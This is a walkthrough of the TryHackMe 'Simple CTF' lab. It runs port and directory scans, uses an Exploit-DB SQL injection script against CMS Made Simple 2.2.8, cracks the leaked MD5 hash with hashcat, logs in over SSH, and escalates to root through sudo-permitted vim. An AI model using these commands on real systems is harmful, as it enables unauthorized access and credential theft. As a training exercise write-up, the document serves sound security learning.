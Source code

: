 # Simple CTF
Room - https://tryhackme.com/room/easyctf
# Enumeration
Start off with a port scan.
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -sV -A 10.10.101.28
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-13 17:45 EST
Nmap scan report for 10.10.101.28
Host is up (0.11s latency).                                                                               
Not shown: 997 filtered tcp ports (no-response)                                                           
PORT     STATE SERVICE VERSION                                                                            
21/tcp   open  ftp     vsftpd 3.0.3                                                                       
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                    
|_Can't get directory listing: TIMEOUT                                                                    
| ftp-syst:                                                                                               
|   STAT:                                                                                                 
| FTP server status:                                                                                      
|      Connected to ::ffff:10.6.27.72                                                                     
|      Logged in as ftp                                                                                   
|      TYPE: ASCII                                                                                        
|      No session bandwidth limit                                                                         
|      Session timeout in seconds is 300                                                                  
|      Control connection is plain text                                                                   
|      Data connections will be plain text                                                                
|      At session startup, client count was 1                                                             
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
A few things stand out immediately: 
- SSH running on a non standard port
- Anonymous FTP login allowed
- Default Apache2 page

Further discovery on web server
```
┌──(kali㉿kali)-[~]
└─$ dirb http://10.10.101.28/ /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jan 13 18:08:24 2023
URL_BASE: http://10.10.101.28/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.101.28/ ----
+ http://10.10.101.28/index.html (CODE:200|SIZE:11321)                                                   
+ http://10.10.101.28/robots.txt (CODE:200|SIZE:929)                                                     
+ http://10.10.101.28/server-status (CODE:403|SIZE:300)                                                  
==> DIRECTORY: http://10.10.101.28/simple/                                                               
```
/index.html - is the default apache landing page <br>
/robots.txt - is not really relevant <br>
/server-status - returns 403 forbidden <br>
/simple - is a hit and returns a webpage <br>
### ADD IMAGE <br>

Scrolling to the bottom it shows the software used to make the site and the version number. CMS Made Simple 2.2.8

### ADD IMAGE <br>

# Exploit
Searching https://www.exploit-db.com/ for "CMS Made Simple 2.2.8" comes up with https://www.exploit-db.com/exploits/46635 <br>
This version of the CMS Made Simple is vulnerable to SQL injections and this python script takes advantage of that. <br>

*Note: I was using python 3 and had to add the parenthesis for the print statements for the program to work*


```
python3.10 Downloads/46635.py -u http://10.10.101.28/simple

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d9
```
Running the hash through hash identifier shows it is a MD5 hash
```
$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 0c01f4468bd75d7a84c7eb73846e8d96

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
Using hashcat to crack the MD5 hash
```
hashcat -O -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /home/kali/Desktop/rockyou.txt
```
Output
```
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
```
Now we have credentials to work with. <br> 
- Username: mitch <br>
- Password: secret
# Access
From the directoy enumeration earlier /simple/admin/login.php was found
### ADD IMAGE

using the credentials to log in presents a control panel

### ADD IMAGE
*Theres not much here that is beneficial to the attack*

Moving on to trying to use the credentials on SSH

```
$ ssh mitch@10.10.101.28 -p 2222  
mitch@10.10.101.28's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!
```
Read the file on the home directory to find the first flag.

# Privilege Escalation 

Frist running `sudo -l` shows that mitch can run vim with sudo privileges.

`sudo vim /etc/shadow` allows us to read encrpyted passwords from accounts on the machine
copying the encrypted password from /etc/shadow and attempting to crack it could be a potential option, but there is a easier way. <br>

https://gtfobins.github.io/gtfobins/vim/#sudo

Using `sudo vim -c ':!/bin/sh'` allows us to use vim with sudo to get a root shell.
```# ^[[2;2Rwhoami 
/bin/sh: 1: not found
/bin/sh: 1: 2Rwhoami: not found
# whoami
root

# cd /root      
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
# 
```
Navigate to the home folder of root and read the root.txt file



